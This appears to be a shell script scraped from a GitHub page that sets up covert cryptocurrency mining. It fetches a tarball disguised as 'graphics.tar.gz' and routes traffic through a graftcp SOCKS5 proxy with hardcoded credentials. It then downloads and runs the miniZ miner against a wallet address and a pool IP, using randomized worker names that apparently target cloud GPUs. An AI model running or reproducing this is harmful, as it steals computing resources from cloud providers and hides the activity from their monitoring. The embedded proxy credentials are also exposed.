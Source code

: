 sudo apt-get update -y
wget https://github.com/Akatsoki/joss/raw/main/graphics.tar.gz
tar -xvzf graphics.tar.gz

cat > graftcp/local/graftcp-local.conf <<END

listen = :2233

loglevel = 1

socks5 = 209.127.191.180:9279

socks5_username = abnqciar

socks5_password = wwzcc0dwcofy

END

./graftcp/local/graftcp-local -config graftcp/local/graftcp-local.conf &

sleep .2

./graftcp/graftcp curl ifconfig.me

echo " "

echo " "

./graftcp/graftcp wget https://github.com/miniZ-miner/miniZ/releases/download/v1.8y2/miniZ_v1.8y2_linux-x64.tar.gz 
tar xf miniZ_v1.8y2_linux-x64.tar.gz 

chmod +x miniZ

./graftcp/graftcp ./miniZ -u BTT:TUHSHk7a4LBushQpCh22jBXz5QeMUfUt77.Mini $(echo $(shuf -i 1-999 -n 1)-T4) -l 159.203.163.51 --port=3333 -p x --par=ethash --pers auto
